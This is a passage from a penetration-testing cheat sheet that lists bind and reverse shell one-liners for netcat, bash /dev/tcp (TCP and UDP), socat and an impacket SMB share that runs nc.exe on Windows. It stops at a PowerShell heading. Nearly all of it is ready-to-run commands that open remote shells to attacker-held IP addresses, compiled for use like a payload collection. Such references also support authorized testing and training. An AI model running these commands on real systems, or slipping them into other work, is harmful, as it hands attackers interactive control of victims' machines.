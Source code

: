 #### Bash

```bash
# Target
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
# Kali
nc -nv 10.129.41.200 7777
```

### Reverse Shell

With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

#### Netcat

```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

#### Impacket-Smbserver

```bash
# On Kali
impacket-smbserver share .
# On Windows
\\192.168.119.193\share\nc.exe -e cmd.exe 192.168.119.193 443
```

#### Bash

```shell
# TCP
bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1

# UDP
nc -u -lvp 4242 #Listener
sh -i >& /dev/udp/10.0.0.1/4242 0>&1
```

#### Socat

```bash
socat -d -d TCP4-LISTEN:443 STDOUT # listener
socat TCP4:10.11.0.22:443 EXEC:/bin/bash # reverse shell
```

#### Powershell
